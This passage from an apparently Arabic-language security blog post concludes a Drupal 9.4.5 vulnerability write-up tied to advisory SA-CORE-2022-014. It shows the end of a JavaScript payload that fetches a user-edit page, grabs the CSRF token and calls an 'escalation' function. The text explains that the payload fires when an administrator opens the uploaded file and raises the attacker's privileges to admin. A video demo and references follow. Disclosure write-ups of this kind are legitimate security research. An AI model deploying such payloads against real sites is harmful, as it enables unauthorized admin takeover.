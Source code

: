 ```js

        //Calling the escalation function and passing the csrfToken value to it
        escalation(csrfToken);
    }
}

XHR.open('GET', 'http://localhost/drupal-9.4.5/user/2/edit', true);
XHR.send();
```

وبكذا أول مايزور الآدمن الملف راح يتم تنفيذ هذ الكود والهدف منه زي ماقلنا رفع صلاحياتنا المحدودة إلى أعلى صلاحية.

:وهذا مقطع يوضح كل التفاصيل اللي فوق بشكل عملي
<br>

<iframe width="560" height="315" src="https://www.youtube.com/embed/tTJEmredVdE" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<br><br>

> <html><body><b><p style="color:#A52A2A;font-size:25px">Conclusion and References</p></b></body></html>

 بالختام, دعواتكم لي ولوالدي ولمن أحب.
 وإذا أحد عنده إضافة أبد البلوق للجميع وأنا أول الشاكرين ^_^
 
-   https://github.com/drupal/core/commit/1cd1830d79f221cc8490f53c2bb487dd07094f17
-   https://www.drupal.org/sa-core-2022-014
-   https://developer.mozilla.org/en-US/docs/Web/SVG/Attribute/xlink:href
-   https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementById

